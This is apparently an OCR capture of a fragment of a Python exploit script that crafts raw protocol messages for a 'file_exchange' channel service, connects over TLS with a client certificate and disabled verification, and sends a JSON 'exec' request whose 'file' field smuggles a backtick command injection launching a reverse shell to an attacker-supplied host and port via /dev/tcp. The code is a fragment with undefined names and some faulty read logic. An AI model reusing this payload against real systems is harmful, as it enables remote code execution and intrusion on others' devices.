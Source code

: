 ```python


request_file_exchange = b"""get file_exchange
localid=REPLACE_LOCAL_ID
chan_window_sz=32768
deflate=gzip
file_exch_cmd=put_json_cmd

\0""".replace(b"\n", b"\r\n").replace(b"REPLACE_LOCAL_ID", str(random.randint(100,999)).encode())

json_payload = b"""{
    "method": "exec",
    "id": 1,
    "params": [
        {
            "url": "um/som/export",
            "data": {
               "file":"`sh -i >& /dev/tcp/REPLACE_LHOST/REPLACE_LPORT 0>&1`"
            }
        }
    ]
}""".replace(b"REPLACE_LHOST", args.lhost.encode()).replace(b"REPLACE_LPORT", args.lport.encode())
request_channel_open = b"""channel
remoteid=REPLACE_REMOTE_ID

\0""".replace(b"\n", b"\r\n")

request_channel_open += str(len(json_payload)).encode()
request_channel_open += b"\n"
request_channel_open += json_payload
request_channel_open += b"0\n"


request_channel_close = b"""channel
action=close
remoteid=REPLACE_REMOTE_ID

\0""".replace(b"\n", b"\r\n")


def sendmsg(socket, request, recv=True):
    message=struct.pack(">II", 0x36e01100, len(request)+8)+request
    socket.send(message)
    if(not recv):
        return
    hdr=socket.read(8)
    if len(hdr)!=8:
        return hdr
    magic, size=struct.unpack(">II", socket.read(8))
    return socket.read(size)


def create_ssl_sock():
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    context.load_cert_chain(certfile="w00t_cert.bin", keyfile="w00t_key.bin")  # Load the certificate and key
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE

    s = socket.create_connection(host, 30)
    ssl_sock = context.wrap_socket(s)
    return ssl_sock

```